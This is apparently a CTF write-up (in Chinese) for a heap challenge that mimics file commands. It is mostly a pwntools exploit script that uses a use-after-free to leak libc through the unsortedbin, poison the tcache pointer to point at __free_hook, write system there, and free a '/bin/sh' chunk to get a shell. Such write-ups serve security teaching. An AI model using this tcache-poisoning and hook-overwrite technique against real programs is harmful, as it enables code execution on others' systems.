

## wp

#### ln+cat UAF通过unsortedbin泄露libc，再用libcsearcher查到freehook的地址，将tcache的fd改成freehook后，利用ln+gedit任意写，写system到freehook中，最后free拿到shell

`def add(name,context):

  send_text = f'touch {name}'

  r**.**sendline(send_text**.**encode())

  r**.**sendline(context)

def delete(name):

  send_text = f'rm {name}'

  r**.**sendline(send_text**.**encode())

def show(name):

  send_text = f'cat {name}'

  r**.**sendline(send_text**.**encode())

  

def ln(name1,name2):

  send_text = f'ln {name1} {name2}'

  r**.**sendline(send_text**.**encode())

def edit(name,context):

  send_text = f'gedit {name}'

  r**.**sendline(send_text**.**encode())

  r**.**sendline(context)

for i in range(9):

  add(i,str(i)**.**encode())

ln(6,'bye')

ln(7,'hi')

for i in range(8):

  delete(i)

show('hi')

main_arena_addr = u64(r**.**recvuntil(b'\x7f')[-6:]**.**ljust(8,b'\x00')) - 96

malloc_hook_addr = main_arena_addr - 0x10

libc=LibcSearcher('__malloc_hook',malloc_hook_addr)

offset = malloc_hook_addr - libc**.**dump('__malloc_hook')

system_addr = offset + libc**.**dump('system')

free_hook = offset + libc**.**dump('__free_hook')

edit('bye',p64(free_hook))#*UAF 把tcache[6]中的next指针覆写为free_hook_addr*

add(9,b'') #*9为从tcache申请的chunk*

add(10,b'') #*10为 malloc返回的free_hook的指针*

edit(9,b'/bin/sh\x00') 

edit(10,p64(system_addr))#*向free_hook中写入system地址*

delete(9)

r**.**interactive()`